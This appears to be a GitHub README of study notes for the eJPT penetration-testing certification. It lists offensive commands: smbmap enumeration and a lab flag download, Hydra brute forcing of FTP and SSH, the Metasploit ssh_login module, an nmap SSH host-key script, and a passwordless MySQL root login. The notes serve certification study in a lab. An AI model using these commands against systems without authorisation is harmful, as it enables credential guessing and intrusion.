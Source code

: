# EJPT
##Notes and commands cheat sheet for the EJPT##


SMBMap

```smbmap -u "(username)" -p "(password)" -H "(IP address)```

Downloading file using SMB Map

```smbmap -u administrator -p smbserver_771 -H 10.4.244.255 --download "c$\flag.txt```

Brute forcing FTP using Hydra

```hydra -L (Username list) -P (Password list) (IP Address) ftp```

SSH - Getting SSH host key using Nmap

```nmap (IPaddress) -p 22 --script-args ssh_hostkey=full```
Save the host key for later

Brute Forcing SSH with Hydra

```hydra -L (username) -P (password list) (IP address) ssh```

Brute Forcing SSH login with Metasploit

```Use ssh/ssh_login```

MYSQL

Logging into Mysql on remote host

```mysql -h (IP address) -u root```

Seeing database

```show databases ---then type semicolon```
